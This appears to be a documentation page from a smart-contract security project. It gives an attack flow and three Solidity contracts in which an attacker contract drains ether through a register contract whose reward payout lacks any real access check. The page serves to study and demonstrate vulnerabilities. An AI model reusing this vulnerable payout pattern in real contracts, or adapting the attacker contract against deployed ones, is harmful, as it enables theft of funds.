

########################
Exploits of Figure 2
########################

**Attack Flow**

Attacker -> SolidStampRegister -> SolidStamp --trasfer ethers--> Attacker

**Attacker Contract**

.. code-block:: Solidity
    :linenos:

    contract Attacker {
        address solidStampRegister;
        uint count=0;
        
        function setAddress ( address _solidStampRegister ) public payable
        {
            solidStampRegister = _solidStampRegister;
        }
        
        function attak() public 
        {
            
            SolidStampRegister(solidStampRegister).registerAudit("Hello");
        }
        
        constructor() payable public {}
        
        function () public payable {}
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }

**SolidStampRegister Contract**

.. code-block:: Solidity
    :linenos:

    contract SolidStampRegister {
        address solidStamp;
    
        function setAddress  ( address _solidStamp ) public payable
        {
            solidStamp = _solidStamp;
        }
        
        function registerAudit( bytes32 _codehash) public 
        {
        
            SolidStamp(solidStamp).audContract(msg.sender);
        }
        
        function () public payable {}
        
        constructor() payable public {}

        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }

**SolidStamp Contract**

.. code-block:: Solidity
    :linenos:

    contract SolidStamp {
        uint [3] Rewards = [0,0,0];
        address SolidStampRegisterAddress;

        constructor (address _SolidStampRegisterAddress ) public payable
        {
            SolidStampRegisterAddress = _SolidStampRegisterAddress;
        }

        modifier onlyRegister() {
            require(msg.sender == SolidStampRegisterAddress, "can be only run by SolidStampRegister contract");
            _;
        }
    
        function audContract( address _auditor ) public onlyRegister
        {
            uint reward = Rewards[2];
            _auditor.transfer(reward);
        }
        
        function () public payable {}

        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }

        function setReward(uint t) public payable
        {
            Rewards[2] = t;
        }
    }

**Running Screenshots**

